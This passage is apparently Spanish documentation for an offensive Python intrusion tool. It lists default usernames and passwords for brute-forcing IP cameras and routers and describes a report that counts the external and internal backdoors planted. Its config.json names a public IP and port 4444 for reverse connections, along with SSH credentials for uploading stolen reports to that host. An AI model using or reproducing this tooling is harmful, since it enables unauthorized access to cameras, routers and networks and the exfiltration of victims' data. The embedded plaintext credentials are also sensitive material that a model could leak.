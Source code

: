   - Elimina usuarios creados
  - Restaura configuración de red

### Resumen Final
```python
def generate_report(self):
def _show_remote_access_summary(self):
```
- Calcula estadísticas finales
- Muestra resumen de accesos remotos disponibles
- Genera reporte JSON completo
- Confirma disponibilidad de acceso remoto
- Incluye contadores de backdoors externos e internos
- Lista tipos de backdoors implementados

## Configuración

### Configuración Básica (Líneas 90-100)
```python
self.config = {
    'scan_timeout': 30,
    'max_threads': 10,
    'common_ports': [21, 22, 23, 25, 53, 80, 110, 135, 139, 143, 443, 993, 995, 1433, 3389, 5432, 5900, 8080],
    'camera_ports': [80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 443, 554, 8080, 8081, 8082, 8083, 8084, 8085, 8086, 8087, 8088, 8089, 8090, 8888, 9999],
    'default_users': ['admin', 'administrator', 'root', 'guest', 'user'],
    'default_passwords': ['admin', 'password', '123456', 'root', 'guest', ''],
    'camera_users': ['admin', 'administrator', 'root', 'guest', 'user', 'camera', 'ipcam', 'webcam', 'viewer', 'operator'],
    'camera_passwords': ['admin', 'password', '123456', 'root', 'guest', '', 'camera', 'ipcam', 'webcam', 'viewer', 'operator', '1234', '12345', '123456789', 'admin123', 'password123'],
    'router_ports': [80, 443, 8080, 8443, 23, 22, 21, 161, 162],
    'router_users': ['admin', 'administrator', 'root', 'guest', 'user', 'admin', 'root', 'user', 'support', 'technician'],
    'router_passwords': ['admin', 'password', '123456', 'root', 'guest', '', 'admin', 'password', '1234', '12345', '123456', 'admin123', 'password123', 'support', 'technician']
}
```

### Configuración Externa (config.json)
El script carga configuración desde `config.json`:
```python
def _load_config(self):
    """Cargar configuración desde archivo config.json"""
    with open('config.json', 'r', encoding='utf-8') as f:
        return json.load(f)
```

Estructura del config.json (actualizada):
```json
{
  "remote_access": {
    "external_ip": "212.95.62.135",
    "external_port": 4444,
    "description": "IP pública y puerto para conexiones salientes"
  },
  "ssh_upload": {
    "host": "212.95.62.135",
    "port": 22,
    "username": "Administrator",
    "password": "Eu_2J84CcX.9-xnv",
    "description": "Configuración para envío de reportes por SSH/SCP"
  },
```